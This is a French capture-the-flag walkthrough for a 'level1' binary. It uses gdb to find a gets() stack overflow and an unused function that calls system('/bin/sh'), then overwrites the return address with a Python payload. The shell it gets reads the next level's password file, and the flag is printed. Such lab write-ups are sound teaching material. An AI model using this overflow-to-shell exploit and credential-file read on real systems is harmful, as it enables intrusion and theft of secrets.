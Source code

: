 #level1

On a un exécutable qui s'appelle level1.

Il attend un input et ensuite s'arretera.

Regardons un peu plus en détail.

$ gdb level1

> disas level1

Dump of assembler code for function main:
0x08048480 <+0>: push %ebp
0x08048481 <+1>: mov %esp,%ebp
0x08048483 <+3>: and $0xfffffff0,%esp
0x08048486 <+6>: sub $0x50,%esp
0x08048489 <+9>: lea 0x10(%esp),%eax
0x0804848d <+13>: mov %eax,(%esp)
0x08048490 <+16>: call 0x8048340 <gets@plt>
0x08048495 <+21>: leave
0x08048496 <+22>: ret
End of assembler dump.

On voit qu'il appelle gets() puis qu'il s'arrête.

En regardant la liste des fonctions, on remarque qu'il y a une fonction qui s'appelle run mais qui n'est pas appelée.

(gdb) info function
All defined functions:

Non-debugging symbols:
0x080482f8 \_init
0x08048340 gets
0x08048340 gets@plt
0x08048350 fwrite
0x08048350 fwrite@plt
0x08048360 system
0x08048360 system@plt
0x08048370 **gmon_start**
0x08048370 **gmon_start**@plt
0x08048380 **libc_start_main
0x08048380 **libc_start_main@plt
0x08048390 \_start
0x080483c0 **do_global_dtors_aux
0x08048420 frame_dummy
0x08048444 run
0x08048480 main
0x080484a0 **libc_csu_init
0x08048510 **libc_csu_fini
0x08048512 **i686.get_pc_thunk.bx
0x08048520 \_\_do_global_ctors_aux
0x0804854c \_fini

On desassembre la fonction run:

> disas run
> Dump of assembler code for function run:
> 0x08048444 <+0>: push %ebp
> 0x08048445 <+1>: mov %esp,%ebp
> 0x08048447 <+3>: sub $0x18,%esp
> 0x0804844a <+6>: mov 0x80497c0,%eax
> 0x0804844f <+11>: mov %eax,%edx
> 0x08048451 <+13>: mov $0x8048570,%eax
> 0x08048456 <+18>: mov %edx,0xc(%esp)
> 0x0804845a <+22>: movl $0x13,0x8(%esp)
> 0x08048462 <+30>: movl $0x1,0x4(%esp)
> 0x0804846a <+38>: mov %eax,(%esp)
> 0x0804846d <+41>: call 0x8048350 <fwrite@plt>
> 0x08048472 <+46>: movl $0x8048584,(%esp)
> 0x08048479 <+53>: call 0x8048360 <system@plt>
> 0x0804847e <+58>: leave
> 0x0804847f <+59>: ret
> End of assembler dump.

On voit un appel à system().

Regardons l'argument de la fonction system().

> x/s 0x8048584
> 0x8048584: "/bin/sh"

On va essayer de lancer run pour utiliser system().

On remarque après plusieurs tests que le programme segfaulte à partir de plus de 76 charactères.

$ python -c "print 'A'\*80" | ./level1
Segmentation fault (core dumped)

On va donc exploiter level1 avec un buffer overflow et ainsi rediriger le programme vers la fonction run avec son l'adresse.

$ python -c 'print "A"*76 + "\x44\x84\x04\x08"' > /tmp/payload1

$ cat /tmp/payload1 - | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
